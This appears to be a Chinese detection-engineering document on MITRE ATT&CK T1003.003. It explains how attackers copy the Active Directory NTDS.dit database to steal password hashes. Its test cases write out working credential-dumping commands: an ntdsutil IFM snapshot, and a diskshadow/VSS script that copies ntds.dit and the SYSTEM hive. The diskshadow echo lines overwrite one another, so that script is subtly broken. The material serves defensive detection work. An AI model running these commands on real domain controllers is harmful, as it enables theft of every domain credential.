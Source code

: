 # T1003.003-基于应用日志检测Ntdsutil获取凭证

## 描述

攻击者可能通过访问或创建ActiveDirectory域数据库（NTDS.dit）的副本，窃取凭据信息（如用户密码哈希）以及获取域成员（如设备、用户和访问权限）的详细信息。NTDS.dit是存储ActiveDirectory数据的核心数据库，包含域用户、组及其密码哈希（NTLM哈希），默认位于域控制器（DC）的`%SystemRoot%\NTDS\Ntds.dit`（通常为`C:\Windows\NTDS\ntds.dit`）。攻击者需要域管理员权限或物理访问权限才能访问该文件。

攻击者常使用以下工具或技术枚举NTDS.dit：
- **Ntdsutil.exe**：Windows内置工具，可创建NTDS.dit的快照。
- **卷影副本（VolumeShadowCopy）**：通过VSS（卷影拷贝服务）复制NTDS.dit。
- **Secretsdump.py**：从NTDS.dit提取哈希。
- **直接备份**：复制NTDS.dit或其备份文件。

获取NTDS.dit后，攻击者可离线提取哈希，用于密码破解或传递哈希（Pass-the-Hash）攻击，导致域环境沦陷。

## 测试案例

### 测试案例1：使用Ntdsutil创建NTDS.dit快照
通过`ntdsutil.exe`创建域控制器NTDS.dit的快照，提取ActiveDirectory数据库。

**命令**：
```cmd
ntdsutil "activate instance ntds" "ifm" "create full C:\Temp\ntds_dump" quit quit
```

- **说明**：
  - `activate instance ntds`：激活NTDS实例。
  - `ifm`：进入InstallfromMedia模式。
  - `create full`：创建包含NTDS.dit和SYSTEM注册表配置单元的完整快照。
  - 输出路径：`C:\Temp\ntds_dump`。
- **权限**：需要域管理员或本地Administrators组权限。
- **支持系统**：WindowsServer2008、2012、2016、2019。

### 测试案例2：使用VSS和Diskshadow提取NTDS.dit
通过卷影副本服务（VSS）和`diskshadow`工具复制NTDS.dit。

**命令**：
```cmd
echo create context persistent > diskshadow.txt
echo create > diskshadow.txt
echo exec copy_ntds.bat > diskshadow.txt
diskshadow /s diskshadow.txt
```

- **copy_ntds.bat**：
  ```cmd
  copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\ntds.dit C:\Temp\ntds.dit
  copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\Temp\system.hiv
  ```
